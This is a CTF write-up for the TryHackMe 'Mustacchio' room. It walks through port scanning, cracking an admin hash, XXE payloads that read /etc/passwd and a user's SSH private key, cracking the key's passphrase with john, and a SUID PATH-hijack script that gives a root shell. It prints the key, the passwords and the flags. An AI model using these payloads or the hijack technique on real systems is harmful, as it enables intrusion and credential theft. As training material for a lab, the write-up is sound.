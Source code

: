 # Tryhackme.com Room : mustacchio

`https://tryhackme.com/room/mustacchio`

## Instance

```bash
export IP="10.10.93.236"
```

## Nmap

```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
|_  256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: OPTIONS GET HEAD POST
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Mustacchio | Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



## Initial foothold

Looking at the website on port `80`, we see only static files. Not much there.

The `robots.txt` file contains :

```
User-agent: *
Disallow: /
```

Again not much use here.



Let's gobuster the website.

We find the `/custom` folder. In `/custom/js` we find `user.bak`

Running `file` on `user.bak` we see that it's a `sqlite` database

```
users.bak: SQLite 3.x database, last written using SQLite version 3034001
```

Opening the sqlite database we see that there is only 1 table `user` with :

```
admin:1868e36a6d2b17d4c2745f1659433a54d4bc5f4b
```

Looking on `crackstation` we find that the hash correspond to :

```
admin:bulldog19
```

Tried to login via `ssh` with those credentials but it doesn't work. We need an `ssh key`.

Hmmmm, not sure where we can use these credentials.

Gobuster didn't return other usefull stuff so far.

I was running in circle a bit so I decided to have a quick look at a writeup.

Seems like I missed an open port : `8765`

I did run an all port scan with `nmap --min-rate 4500 --max-rtt-timeout 1500ms -p- -v -oN nmap.all_ports 10.10.93.236` but it didn't catch it



We do however find the port using `nmap -p- -v 10.10.93.236 -T5` but the scan is kinda slow...



Browsing `:8765` we are greeted with a login page. We can login using the `admin:bulldog19` credentials.

We are now greeted by a php page with the prompt `Add a comment on the website` and a textarea with a submit button.



Looking at the source code we find some interesting stuff :

```
<!-- Barry, you can now SSH in using your key!-->
```

So, seems like we got to find an `ssh key` and login as `barry`

We also see 

```
//document.cookie = "Example=/auth/dontforget.bak"; 
```

This is actually an `xml` payload :

```
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could’ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could’ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>
```

When we submit this `xml` in the form, we get a preview of the comment.



This might be a `XXE vulnerability (XML external entity injection)`

We can simply add this to the payload :

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```

Here is the full payload :

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<comment>
  <name>Pwned</name>
  <author>Pwned</author>
  <com>&xxe;</com>
</comment>
```

And we get the content of `/etc/passwd` :

```
joe:x:1002:1002::/home/joe:/bin/bash
barry:x:1003:1003::/home/barry:/bin/bash
```

Let's try to retrieve some `ssh keys` :

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa"> ]>
<comment>
  <name>Pwned</name>
  <author>Pwned</author>
  <com>&xxe;</com>
</comment>
```

And we do get it :

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,D137279D69A43E71BB7FCB87FC61D25E

jqDJP+blUr+xMlASYB9t4gFyMl9VugHQJAylGZE6J/b1nG57eGYOM8wdZvVMGrfN
bNJVZXj6VluZMr9uEX8Y4vC2bt2KCBiFg224B61z4XJoiWQ35G/bXs1ZGxXoNIMU
MZdJ7DH1k226qQMtm4q96MZKEQ5ZFa032SohtfDPsoim/7dNapEOujRmw+ruBE65
l2f9wZCfDaEZvxCSyQFDJjBXm07mqfSJ3d59dwhrG9duruu1/alUUvI/jM8bOS2D
Wfyf3nkYXWyD4SPCSTKcy4U9YW26LG7KMFLcWcG0D3l6l1DwyeUBZmc8UAuQFH7E
NsNswVykkr3gswl2BMTqGz1bw/1gOdCj3Byc1LJ6mRWXfD3HSmWcc/8bHfdvVSgQ
ul7A8ROlzvri7/WHlcIA1SfcrFaUj8vfXi53fip9gBbLf6syOo0zDJ4Vvw3ycOie
TH6b6mGFexRiSaE/u3r54vZzL0KHgXtapzb4gDl/yQJo3wqD1FfY7AC12eUc9NdC
rcvG8XcDg+oBQokDnGVSnGmmvmPxIsVTT3027ykzwei3WVlagMBCOO/ekoYeNWlX
bhl1qTtQ6uC1kHjyTHUKNZVB78eDSankoERLyfcda49k/exHZYTmmKKcdjNQ+KNk
4cpvlG9Qp5Fh7uFCDWohE/qELpRKZ4/k6HiA4FS13D59JlvLCKQ6IwOfIRnstYB8
7+YoMkPWHvKjmS/vMX+elcZcvh47KNdNl4kQx65BSTmrUSK8GgGnqIJu2/G1fBk+
T+gWceS51WrxIJuimmjwuFD3S2XZaVXJSdK7ivD3E8KfWjgMx0zXFu4McnCfAWki
ahYmead6WiWHtM98G/hQ6K6yPDO7GDh7BZuMgpND/LbS+vpBPRzXotClXH6Q99I7
LIuQCN5hCb8ZHFD06A+F2aZNpg0G7FsyTwTnACtZLZ61GdxhNi+3tjOVDGQkPVUs
pkh9gqv5+mdZ6LVEqQ31eW2zdtCUfUu4WSzr+AndHPa2lqt90P+wH2iSd4bMSsxg
laXPXdcVJxmwTs+Kl56fRomKD9YdPtD4Uvyr53Ch7CiiJNsFJg4lY2s7WiAlxx9o
vpJLGMtpzhg8AXJFVAtwaRAFPxn54y1FITXX6tivk62yDRjPsXfzwbMNsvGFgvQK
DZkaeK+bBjXrmuqD4EB9K540RuO6d7kiwKNnTVgTspWlVCebMfLIi76SKtxLVpnF
6aak2iJkMIQ9I0bukDOLXMOAoEamlKJT5g+wZCC5aUI6cZG0Mv0XKbSX2DTmhyUF
ckQU/dcZcx9UXoIFhx7DesqroBTR6fEBlqsn7OPlSFj0lAHHCgIsxPawmlvSm3bs
7bdofhlZBjXYdIlZgBAqdq5jBJU8GtFcGyph9cb3f+C3nkmeDZJGRJwxUYeUS9Of
1dVkfWUhH2x9apWRV8pJM/ByDd0kNWa/c//MrGM0+DKkHoAZKfDl3sC0gdRB7kUQ
+Z87nFImxw95dxVvoZXZvoMSb7Ovf27AUhUeeU8ctWselKRmPw56+xhObBoAbRIn
7mxN/N5LlosTefJnlhdIhIDTDMsEwjACA+q686+bREd+drajgk6R9eKgSME7geVD
-----END RSA PRIVATE KEY-----
```

The key require a passphrase. Let's try to crackit with `john the ripper`.

First we need to prepare the key with `/usr/share/john/ssh2john.py barry.key > barry.key.for_john` and then we run `john --wordlist=/usr/share/wordlists/rockyou.txt barry.key.for_john`.

We find the passphrase :

```
urieljames
```



Now let's login via ssh.

We find `/home/barry/user.txt` :

```
62d77a4d5f97d47c5aa38b3b2651b831
```



## Priv esc

We take a look at `/home/joe` and we find the `live_log` executable.

We run it and it simply show the http logs.

Running `strings live_log` we find that it simply call `system` with the argument :

```
tail -f /var/log/nginx/access.log
```

The executable has a `suid` bit set.

We can probably highjack the `tail` binary since it's a relative path and get code execution as `joe`.

Let's do this.

We create a small shell script in `/tmp/bin/tail` :

```
#!/bin/bash
id > /tmp/pwn
```

We then add it to the `PATH` with `export PATH=/tmp/bin:$PATH`.

We run `/home/joe/live_log` and the `/tmp/pwn` file is indeed created.

But it's runned as `root` ! I thought that `live_log` was owned by `joe` but it is in fact owned by `root` so yeah... even better :P 



Let's modify our `tail` script :

```
#!/bin/bash
cp /bin/bash /tmp/bash
chmod +s /tmp/bash
```

We then run `/tmp/bash -p` and we are `root` !



Let's get the flag in `/root/root.txt` :

```
3223581420d906c4dd1a5f9b530393a5
```



And it's done !



## Wrap up

* This was a pretty easy box
* I did get bite in the ass by the fact that I wasn't patient enough to scan all ports... Should always do a full port scan, even if it's slow...
* Looking at a write up, I could have just spawned a shell by calling `/bin/bash` in my `tail` script instead of copying `bash` and setting the `suid` bit.

